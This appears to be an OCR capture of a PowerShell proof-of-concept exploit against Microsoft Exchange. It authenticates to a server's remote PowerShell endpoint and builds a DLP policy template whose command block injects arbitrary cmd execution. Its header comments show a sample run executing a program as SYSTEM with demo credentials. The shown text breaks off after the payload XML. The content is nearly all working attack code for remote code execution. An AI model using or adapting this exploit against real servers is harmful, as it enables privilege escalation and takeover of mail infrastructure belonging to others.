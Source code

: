     # (+) targeting WIN-0K4AOM2JIN6.exchangedemo.com with harrym@exchangedemo.com:user123###
    # (+) executed mspaint as SYSTEM!
    # PS C:\Users\researcher>

    param (
        [Parameter(Mandatory=$true)][string]$server,
        [Parameter(Mandatory=$true)][string]$usr,
        [Parameter(Mandatory=$true)][string]$pwd,
        [string]$cmd = "mspaint"
    )

    Function Get-RandomAlphanumericString {
        [CmdletBinding()]
        Param (
            [int] $length = 8
        )
        Process{
            Write-Output ( -join ((0x30..0x39) + ( 0x41..0x5A) + ( 0x61..0x7A) | Get-Random -Count $length  | % {[char]$_}) )
        }
    }

    function Exploit-Exchange {
        Param (
            [string] $server,
            [string] $usr,
            [string] $pwd,
            [string] $cmd
        )
        "(+) targeting $server with ${usr}:$pwd"
        $securepwd = ConvertTo-SecureString $pwd -AsPlainText -Force
        $creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($usr, $securepwd)
        $s = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://$server/PowerShell/ -Authentication Kerberos -Credential $creds

        $xml = @"
    <dlpPolicyTemplates>
      <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
        <contentVersion>4</contentVersion>
        <publisherName>si</publisherName>
        <name>
          <localizedString lang="en"></localizedString>
        </name>
        <description>
          <localizedString lang="en"></localizedString>
        </description>
        <keywords></keywords>
        <ruleParameters></ruleParameters>
        <policyCommands>
          <commandBlock>
            <![CDATA[ `$i=New-object System.Diagnostics.ProcessStartInfo;`$i.UseShellExecute=`$true;`$i.FileName="cmd";`$i.Arguments="/c $cmd";`$r=New-Object System.Diagnostics.Process;`$r.StartInfo=`$i;`$r.Start() ]]>
          </commandBlock>
        </policyCommands>
        <policyCommandsResources></policyCommandsResources>
      </dlpPolicyTemplate>
    </dlpPolicyTemplates>"@

